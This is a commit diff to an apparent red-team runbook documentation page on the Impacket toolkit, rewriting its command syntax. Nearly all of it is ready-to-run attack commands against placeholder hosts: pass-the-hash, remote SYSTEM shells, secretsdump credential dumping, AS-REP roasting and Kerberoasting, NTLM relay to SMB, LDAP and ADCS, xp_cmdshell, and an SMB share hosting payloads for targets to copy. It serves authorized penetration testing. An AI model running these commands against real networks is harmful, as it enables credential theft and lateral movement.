

Before and after one commit to aelder202/red-team-runbook, an MkDocs documentation site: the page built from docs/tools/impacket.md, in a window 1280 px wide and 1400 px high, scrolled down 4679 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 6012 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
impacket update
updated syntax to show impacket-tool rather than tool.py
removed exclusive wmiexec doc and references

````diff
--- a/docs/tools/impacket.md
+++ b/docs/tools/impacket.md
@@ -1,237 +1,261 @@
 # Impacket
 
 !!! tip "Tip"
-    Most Impacket tools follow `impacket-<toolname> domain/user:password@target` syntax. For pass-the-hash: `impacket-wmiexec -hashes :NTLMhash domain/user@target`. For Kerberos auth: add `-k -no-pass` and ensure `/etc/hosts` and your Kerberos config point to the DC.
+    On Kali, use the packaged wrappers: `impacket-secretsdump`, `impacket-wmiexec`, `impacket-GetUserSPNs`, etc. Upstream help may still show the original script name in the usage line, but the Kali binaries are `impacket-<tool>`.
 
 ---
 ## Core Syntax
 
 ```bash
-<tool>.py [domain/][user][:pass]@<target> [flags]
+impacket-<tool> [options] [[domain/]username[:password]@]<target>
 ```
 
-### Common patterns
+| Auth | Pattern |
+| --- | --- |
+| Domain password | `impacket-psexec 'CORP/<user>:<pass>@10.10.10.10'` |
+| Local password | `impacket-wmiexec '<user>:<pass>@10.10.10.10'` |
+| Pass-the-hash | `impacket-wmiexec -hashes :<ntlm-hash> 'CORP/<user>@10.10.10.10'` |
+| Kerberos ticket | `KRB5CCNAME=<user>.ccache impacket-psexec -k -no-pass 'CORP/<user>@dc01.corp.local'` |
+| AES key | `impacket-secretsdump -aesKey <aes256-key> 'CORP/<user>@dc01.corp.local'` |
 
-- `DOMAIN/username:password@target` — domain account
-- `username:password@target` — local account / no domain
-- `-no-pass` — empty password
-- `-hashes LM:NT` or `:NT` — pass-the-hash (supply NT hash)
-
----
-## Authentication Methods
-
-| Method | Syntax Example |
-| --- | --- |
-| Plaintext | `psexec.py 'CORP\admin:Passw0rd@10.10.10.10'` |
-| Hashes (PTH) | `secretsdump.py 'user@10.10.10.10' -hashes :aad3...:nt...` |
-| Kerberos | `GetUserSPNs.py 'CORP/enum:Pass' -request` (or use `-k` with existing ticket) |
-| No password / anonymous | `smbclient.py 'WORKGROUP/guest@10.10.10.10'` |
+!!! warning "Watch out"
+    Kerberos mode needs names, not raw IPs. Put the DC/host FQDN in `/etc/hosts`, set `KRB5CCNAME` when using a ticket, and add `-dc-ip 10.10.10.10` when DNS is unreliable.
 
 ---
 ## SMB / File Ops
 
-### Enumerate Shares
+### Enumerate shares
 
 ```bash
-smbclient.py 'WORKGROUP/guest@10.10.10.10'
+impacket-smbclient 'CORP/<user>:<pass>@10.10.10.10'
 ```
 
-**Expected Output:**
-
 ```text
-[*] Querying shares on 10.10.10.10
-
-    ADMIN$
-
-    C$
-
-    Public
+# shares
+# use SYSVOL
+# ls
+# get Policies/{GUID}/Machine/Microsoft/Windows NT/SecEdit/GptTmpl.inf
+# exit
 ```
 
-### Download File
+### Run scripted SMB client commands
 
 ```bash
-smbclient.py 'CORP/alice:Passw0rd@10.10.10.10' -command 'get \Users\Public\loot.txt /tmp/loot.txt'
+printf 'shares\nuse C$\nget Users\\Public\\loot.txt loot.txt\nexit\n' > smb.cmds
+impacket-smbclient -inputfile smb.cmds 'CORP/<user>:<pass>@10.10.10.10'
 ```
 
-### Host Files (serve payloads)
+### Host files
 
 ```bash
-smbserver.py PWN /home/user/payloads
+impacket-smbserver PWN /home/user/payloads -smb2support
 
-# Target can copy: copy \10.10.14.2\PWN\payload.exe C:\Temp\payload.exe
+# Target: copy \\10.10.14.2\PWN\payload.exe C:\Temp\payload.exe
 ```
 
 ---
-## Remote Code Execution & Lateral Movement
+## Remote Execution
 
-### psexec (service-based, reliable, noisy)
+| Tool | Use | Notes |
+| --- | --- | --- |
+| `impacket-psexec` | Interactive shell as `SYSTEM` | Uploads/starts a temporary service; reliable and noisy. |
+| `impacket-smbexec` | Semi-interactive shell as `SYSTEM` | Service-based; useful when `psexec` is blocked. |
+| `impacket-wmiexec` | Semi-interactive shell as the supplied user | WMI/DCOM; no service creation, still creates process telemetry. |
+| `impacket-dcomexec` | Semi-interactive shell as the supplied user | DCOM object execution; try when WMI behavior is filtered. |
+| `impacket-atexec` | One-shot command as `SYSTEM` | Scheduled task execution; good for a single command. |
+
+### PSExec
 
 ```bash
-psexec.py 'CORP\Administrator:Passw0rd@10.10.10.10' cmd.exe
+impacket-psexec 'CORP/Administrator:Passw0rd@10.10.10.10'
+impacket-psexec -hashes :<ntlm-hash> 'CORP/Administrator@10.10.10.10'
+impacket-psexec 'CORP/Administrator:Passw0rd@10.10.10.10' 'whoami'
 ```
 
-> Creates a temporary service on the target (Event ID 7045). Use for reliable interactive shells.
-
-### wmiexec (WMI, stealthier — no service creation)
+### WMIExec
 
 ```bash
-wmiexec.py 'CORP\svc:Password@10.10.10.10'
+impacket-wmiexec 'CORP/<user>:<pass>@10.10.10.10'
+impacket-wmiexec -hashes :<ntlm-hash> 'CORP/<user>@10.10.10.10'
+impacket-wmiexec -shell-type powershell 'CORP/<user>:<pass>@10.10.10.10'
+impacket-wmiexec 'CORP/<user>:<pass>@10.10.10.10' 'ipconfig /all'
 ```
 
-### Alternate RPC-based execs
+### Alternate exec methods
 
 ```bash
-smbexec.py 'user:pass@10.10.10.10'
-
-atexec.py 'user:pass@10.10.10.10'
-
-dcomexec.py 'user:pass@10.10.10.10'
-```
-
-> Try different exec methods if one fails — environments vary (DCOM, Task Scheduler, SMB).
-
----
-## Credential Harvesting & Dumping
-
-### secretsdump — remote or offline SAM/NTDS extraction
-
-```bash
-# Remote dump with creds
-impacket-secretsdump 'CORP/Administrator:Passw0rd@10.10.10.10'
-
-# Pass-the-hash mode (LM:NT or :NT)
-impacket-secretsdump 'CORP/user@10.10.10.10' -hashes :0123456789abcdef0123456789abcdef
-
-# DC-only dump (skip SAM/LSA — NTDS.dit via DRSUAPI, much faster on large domains)
-impacket-secretsdump -just-dc 'CORP/Administrator:Passw0rd@dc.example.com'
-
-# Just domain NTLM hashes (no Kerberos keys)
-impacket-secretsdump -just-dc-ntlm 'CORP/Administrator:Passw0rd@dc.example.com'
-
-# From an offline NTDS.dit + SYSTEM hive (e.g., after diskshadow + robocopy /b)
-impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
-```
-
-**Output:** NTLM hashes, cached creds, and (when possible) LSA secrets suitable for offline cracking.
-
-### samrdump / netview — lightweight enumeration
-
-```bash
-samrdump.py 'CORP\user:Pass@dc.corp.local'
-
-netview.py 'CORP\user:Pass@10.10.10.10'
+impacket-smbexec 'CORP/Administrator:Passw0rd@10.10.10.10'
+impacket-atexec 'CORP/Administrator:Passw0rd@10.10.10.10' 'whoami'
+impacket-dcomexec 'CORP/Administrator:Passw0rd@10.10.10.10'
 ```
 
 ---
-## Kerberos Attacks
+## Credential Dumping
 
-### GetNPUsers — AS-REP Roasting (no preauth)
+### Remote and offline dumps
 
 ```bash
-GetNPUsers.py 'CORP\user:Pass' -no-pass
+# Remote SAM/LSA/NTDS where permitted
+impacket-secretsdump 'CORP/Administrator:Passw0rd@10.10.10.10'
+
+# Pass-the-hash
+impacket-secretsdump -hashes :<ntlm-hash> 'CORP/Administrator@10.10.10.10'
+
+# DC-only DRSUAPI dump
+impacket-secretsdump -just-dc 'CORP/Administrator:Passw0rd@dc01.corp.local'
+
+# Domain NTLM hashes only
+impacket-secretsdump -just-dc-ntlm 'CORP/Administrator:Passw0rd@dc01.corp.local'
+
+# Offline SAM/SYSTEM/SECURITY
+impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
+
+# Offline NTDS.dit
+impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
 ```
 
-Finds accounts with `DONT_REQ_PREAUTH` and outputs hashes crackable offline (hashcat/john format).
-
-### GetUserSPNs — Kerberoasting (TGS requests)
+### Lightweight enumeration
 
 ```bash
-GetUserSPNs.py 'CORP\user:Pass' -request -outputfile spns.txt
-```
-
-Enumerates accounts with SPNs, requests service tickets (TGS), saves crackable blobs for offline brute-forcing.
-
-### Ticketer / Kerberos ticket ops (advanced)
-
-`ticketer.py` can craft TGT/TGS tickets in specific scenarios — use only when you understand Kerberos ticket internals.
-
----
-## NTLM Relay & Responder Integration
-
-### ntlmrelayx — relay captured NTLM auth to target services
-
-```bash
-# Relay to an SMB host
-ntlmrelayx.py -t smb://10.10.10.100 --smb2support
-
-# Relay using targets file & execute module
-ntlmrelayx.py -tf targets.txt -smb2support --delegate-access
-```
-
-**Typical flow:** Run Responder/mitm6 to capture NTLM; run `ntlmrelayx` to relay to SMB/HTTP/MSSQL and obtain access.
-
----
-## Database & Other Protocols
-
-### mssqlclient — TDS / MSSQL interactive shell
-
-```bash
-mssqlclient.py 'sa:Pass@10.10.10.10'
-
-# If xp_cmdshell is enabled and you have permissions, you can run OS commands from MSSQL.
-```
-
-### lookupsid — translate SIDs to accounts & enumerate groups
-
-```bash
-lookupsid.py 'CORP\user:Pass@dc.corp.local' S-1-5-21-...
+impacket-samrdump 'CORP/<user>:<pass>@dc01.corp.local'
+impacket-lookupsid 'CORP/<user>:<pass>@dc01.corp.local'
+impacket-lookupsid 'CORP/<user>:<pass>@dc01.corp.local' 4000
+impacket-netview -target 10.10.10.10 'CORP/<user>:<pass>'
 ```
 
 ---
-## Modules & Scripts You Should Know
+## Kerberos
+
+### AS-REP roasting
 
 ```bash
-# High-value Impacket tools for CTFs/pentests:
-smbclient.py, smbserver.py, psexec.py, wmiexec.py,
-smbexec.py, atexec.py, dcomexec.py, secretsdump.py,
-GetNPUsers.py, GetUserSPNs.py, ntlmrelayx.py,
-mssqlclient.py, lookupsid.py, samrdump.py, netview.py,
-ticketer.py
+# No credentials, with a user list
+impacket-GetNPUsers example.com/ -usersfile users.txt -dc-ip 10.10.10.10 -no-pass -request -format hashcat -outputfile asrep.hash
+
+# Valid domain credentials
+impacket-GetNPUsers example.com/<user>:'<pass>' -dc-ip 10.10.10.10 -request -format hashcat -outputfile asrep.hash
 ```
 
-- `smbclient`, `smbserver` — file ops & payload hosting
-- `psexec`, `wmiexec`, `smbexec` — lateral execution
-- `secretsdump`, `samrdump` — credential harvesting
-- `GetNPUsers`, `GetUserSPNs` — Kerberos offline cracking
-- `ntlmrelayx` — NTLM relay attacks with Responder/mitm6
+### Kerberoasting
+
+```bash
+impacket-GetUserSPNs example.com/<user>:'<pass>' -dc-ip 10.10.10.10 -request -outputfile tgs.hash
+impacket-GetUserSPNs -k -no-pass example.com/<user> -dc-ip 10.10.10.10 -request -outputfile tgs.hash
+```
+
+### Ticket ops
+
+```bash
+impacket-getTGT example.com/<user>:'<pass>' -dc-ip 10.10.10.10
+impacket-getTGT -hashes :<ntlm-hash> example.com/<user> -dc-ip 10.10.10.10
+impacket-getTGT -aesKey <aes256-key> example.com/<user> -dc-ip 10.10.10.10
+
+impacket-getST -spn cifs/dc01.example.com -impersonate Administrator example.com/<user>:'<pass>' -dc-ip 10.10.10.10
+impacket-ticketConverter ticket.kirbi ticket.ccache
+```
+
+`impacket-ticketer` can forge tickets in specific key-compromise scenarios. Do not run it from a copied snippet; verify the SID, key material, SPN, and PAC requirements first.
 
 ---
-## Impacket Cheatsheet
+## NTLM Relay
 
-| Task | Command Example |
-| --- | --- |
-| Check SMB creds | `smbclient.py 'CORP\user:Pass@10.10.10.10'` |
-| List shares | `smbclient.py 'user:pass@10.10.10.10'` |
-| Download file | `smbclient.py 'user:pass@10.10.10.10' -command 'get \\C$\path file'` |
-| Host payload | `smbserver.py PWN /home/user/payloads` |
-| RCE (psexec) | `psexec.py 'CORP\Administrator:Pass@10.10.10.10' cmd.exe` |
-| RCE (wmiexec) | `wmiexec.py 'user:Pass@10.10.10.10'` |
-| Dump hashes | `secretsdump.py 'CORP\Administrator:Pass@10.10.10.10'` |
-| AS-REP roast | `GetNPUsers.py 'CORP\user:Pass' -no-pass` |
-| Kerberoast | `GetUserSPNs.py 'CORP\user:Pass' -request` |
-| NTLM relay | `ntlmrelayx.py -t smb://10.10.10.100 --smb2support` |
-| MSSQL shell | `mssqlclient.py 'sa:Pass@10.10.10.10'` |
+### Relay captured auth
+
+```bash
+impacket-ntlmrelayx -t smb://10.10.10.100 -smb2support
+impacket-ntlmrelayx -tf targets.txt -smb2support -i
+impacket-ntlmrelayx -tf targets.txt -smb2support -c 'whoami'
+```
+
+### LDAP relay primitives
+
+```bash
+impacket-ntlmrelayx -t ldap://dc01.example.com -smb2support --dump-laps
+impacket-ntlmrelayx -t ldaps://dc01.example.com -smb2support --delegate-access
+impacket-ntlmrelayx -t http://ca.example.com/certsrv/certfnsh.asp -smb2support --adcs --template Machine
+```
+
+!!! warning "Watch out"
+    Relay needs a target that does not require signing or channel binding for the protocol you are attacking. Generate target lists with NetExec, then feed full URLs such as `smb://host`, `ldap://dc`, or `http://ca/certsrv/` to `-t` or `-tf`.
 
 ---
-## Recommended Operator Workflow
+## MSSQL
+
+```bash
+# SQL auth
+impacket-mssqlclient 'sa:Passw0rd@10.10.10.10'
+
+# Windows auth
+impacket-mssqlclient -windows-auth 'CORP/<user>:<pass>@10.10.10.10'
+
+# Non-standard port
+impacket-mssqlclient -port 14330 'sa:Passw0rd@10.10.10.10'
+```
+
+```sql
+enable_xp_cmdshell
+xp_cmdshell whoami
+```
+
+---
+## High-Value Tools
 
 ```text
-[0] Known creds? Try them against SMB/WinRM.
- ↓
-[1] Enumerate shares & services (smbclient, netview).
- ↓
-[2] If creds valid → attempt wmiexec (stealth) then psexec (reliable).
- ↓
-[3] Dump credentials (secretsdump, samrdump).
- ↓
-[4] Domain enum → Kerberos (GetNPUsers/GetUserSPNs) → offline crack.
- ↓
-[5] Relay opportunities: run Responder/mitm6 → ntlmrelayx against targets.
- ↓
-[6] Horizontal/vertical pivot; collect artifacts.
- ↓
-[7] Cleanup & credential rotation.
+impacket-smbclient       SMB mini-shell
+impacket-smbserver       temporary SMB share
+impacket-psexec          service-based SYSTEM shell
+impacket-wmiexec         WMI/DCOM semi-interactive shell
+impacket-smbexec         service-based semi-interactive shell
+impacket-atexec          scheduled task command execution
+impacket-dcomexec        DCOM semi-interactive shell
+impacket-secretsdump     SAM/LSA/NTDS dumping
+impacket-samrdump        SAMR user enumeration
+impacket-lookupsid       SID/RID enumeration
+impacket-netview         host/session/share enumeration
+impacket-GetNPUsers      AS-REP roasting
+impacket-GetUserSPNs     Kerberoasting
+impacket-getTGT          request TGT
+impacket-getST           request service ticket / S4U flows
+impacket-ntlmrelayx      NTLM relay
+impacket-mssqlclient     MSSQL shell
 ```
 
-> After first access, collect for BloodHound and harvest token/delegation material; prioritize persistence only when necessary and within rules of engagement.
+---
+## Cheatsheet
+
+| Task | Command |
+| --- | --- |
+| SMB shell | `impacket-smbclient 'CORP/<user>:<pass>@10.10.10.10'` |
+| Host payloads | `impacket-smbserver PWN /home/user/payloads -smb2support` |
+| PSExec shell | `impacket-psexec 'CORP/Administrator:Passw0rd@10.10.10.10'` |
+| WMIExec shell | `impacket-wmiexec 'CORP/<user>:<pass>@10.10.10.10'` |
+| WMIExec command | `impacket-wmiexec 'CORP/<user>:<pass>@10.10.10.10' 'whoami'` |
+| Pass-the-hash shell | `impacket-wmiexec -hashes :<ntlm-hash> 'CORP/<user>@10.10.10.10'` |
+| Dump secrets | `impacket-secretsdump 'CORP/Administrator:Passw0rd@10.10.10.10'` |
+| Offline SAM dump | `impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL` |
+| AS-REP roast | `impacket-GetNPUsers example.com/ -usersfile users.txt -dc-ip 10.10.10.10 -no-pass -request -format hashcat -outputfile asrep.hash` |
+| Kerberoast | `impacket-GetUserSPNs example.com/<user>:'<pass>' -dc-ip 10.10.10.10 -request -outputfile tgs.hash` |
+| NTLM relay | `impacket-ntlmrelayx -tf targets.txt -smb2support -i` |
+| MSSQL shell | `impacket-mssqlclient -windows-auth 'CORP/<user>:<pass>@10.10.10.10'` |
+
+---
+## Operator Workflow
+
+```text
+[0] Validate creds with NetExec.
+ |
+[1] Use impacket-smbclient for quick share inspection.
+ |
+[2] If local admin: try impacket-wmiexec first, then impacket-psexec/smbexec/atexec.
+ |
+[3] Dump with impacket-secretsdump only when scope and privileges justify it.
+ |
+[4] Run impacket-GetNPUsers / impacket-GetUserSPNs for Kerberos roast paths.
+ |
+[5] Build relay targets with NetExec, then run impacket-ntlmrelayx.
+ |
+[6] Convert/request tickets as needed; keep hostnames and Kerberos config clean.
+```
+
+!!! note "From the lab"
+    Most failed Impacket Kerberos runs are name-resolution problems, not bad tickets. Use FQDN targets, set `KRB5CCNAME`, and add `-target-ip` or `-dc-ip` instead of swapping back to NTLM too early.
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -195,4 +195,3 @@
     - Password Cracking: tools/password-cracking.md
     - Responder: tools/responder.md
     - rpcclient: tools/rpcclient.md
-    - WMIExec: tools/wmiexec.md
````
Also changed, not shown: docs/tools/bloodhound.md (+1 -1 lines), docs/tools/index.md (+0 -1 lines), docs/tools/netexec.md (+1 -1 lines), docs/tools/responder.md (+7 -7 lines), docs/tools/wmiexec.md (deleted, +0 -31 lines).
